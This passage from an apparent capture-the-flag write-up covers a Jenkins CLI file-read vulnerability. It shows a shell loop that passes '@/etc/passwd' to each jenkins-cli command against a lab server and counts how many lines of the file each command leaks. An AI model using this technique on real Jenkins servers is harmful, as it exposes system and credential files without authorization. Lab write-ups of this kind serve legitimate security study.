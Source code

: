 
#### Getting More Lines

In [this video](https://www.youtube.com/watch?v=toPJhfy-wvw), I explore the
vulnerability, walk through exploitation with both the JAR and the Python POC,
and show the path to finding a method to leak more lines:

By the end of the video, I’ve got this output:

    
    
    oxdf@hacky$ cat commands | while read command; do echo "echo -n \"$command: \"; java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' $command '@/etc/passwd' 2>&1 | grep -oP ':\d+:\d+:' | sort -u | wc -l"; done > ipp.sh
    oxdf@hacky$ bash ipp.sh
    add-job-to-view: 1
    build: 1
    cancel-quiet-down: 1
    clear-queue: 1
    connect-node: 19
    console: 1
    copy-job: 1
    create-credentials-by-xml: 1
    create-credentials-domain-by-xml: 1
    create-job: 1
    create-node: 2
    create-view: 2
    declarative-linter: 1
    delete-builds: 1
    delete-credentials: 1
    delete-credentials-domain: 1
    delete-job: 19
    delete-node: 19
    delete-view: 19
    disable-job: 1
    disable-plugin: 0
    disconnect-node: 19
    enable-job: 1
    enable-plugin: 0
    get-credentials-as-xml: 1
    get-credentials-domain-as-xml: 1
    get-job: 1
    get-node: 1
    get-view: 1
    groovy: 0
    groovysh: 0
    help: 2
    import-credentials-as-xml: 1
    install-plugin: 0
    keep-build: 1
    list-changes: 1
    list-credentials: 1
    list-credentials-as-xml: 1
    list-credentials-context-resolvers: 1
    list-credentials-providers: 1
    list-jobs: 2
    list-plugins: 2
    mail: 1
    offline-node: 19
    online-node: 19
    quiet-down: 1
    reload-configuration: 1
    reload-job: 19
    remove-job-from-view: 1
    replay-pipeline: 1
    restart: 1